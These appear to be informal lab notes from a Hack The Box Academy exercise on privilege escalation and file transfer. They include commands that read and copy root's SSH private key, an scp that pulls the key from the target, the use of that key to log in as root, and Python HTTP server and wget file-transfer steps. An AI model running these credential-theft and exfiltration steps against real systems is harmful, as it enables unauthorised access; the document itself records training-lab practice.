 spam
```bash
# Check if the file exists and your permissions on it
ls -l /home/user/.ssh/id_rsa
ls -l /root/.ssh/id_rsa

# Try to read the file
cat /home/user/.ssh/id_rsa
cat /root/.ssh/id_rsa

scp -P 36803 user1@83.136.253.251:/root/.ssh/id_rsa /home/

```
now i see that i can read the id_rsa file in the root folder, so i can ssh into the target machine using the private keys provided in the id_rsa file.  
copy all the content when cating the id_rsa file.  
use exit command twice to go back to local machine and make a file to stored the now exfiltrated root's private key.  
once that is sorted out, we want to ssh into the root account on the target machine.  
```bash
┌─[us-academy-2]─[10.10.14.34]─[htb-ac-1136328@htb-jctqq3hoo2]─[~]
└──╼ [★]$ find ~/ -type f -name "id_rsa_2"
/home/htb-ac-1136328/id_rsa_2

┌─[us-academy-2]─[10.10.14.34]─[htb-ac-1136328@htb-jctqq3hoo2]─[~]
└──╼ [★]$ ssh -i /home/htb-ac-1136328/id_rsa_2 root@94.237.56.188 -p 32627
```
the first command is to locate the place i strored the id_rsa file in my local machine.  

### Transferring files
transfer files between remote server and target machine  
msfconsole meterpreter shell: upload

#### wget
first make a py server on the machine that contains the file  
```bash
python3 -m http.server 8000
```

to check the ip address on the server is running on
```bash
ip addr show

ip a

ifconfig


192.168.119.128
┌──(kali㉿kali)-[~]
└─$ ip a        
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:d2:08:42 brd ff:ff:ff:ff:ff:ff
    inet 192.168.119.128/24 brd 192.168.119.255 scope global dynamic noprefixroute eth0
       valid_lft 1508sec preferred_lft 1508sec
    inet6 fe80::a501:da0d:d9a2:f090/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```
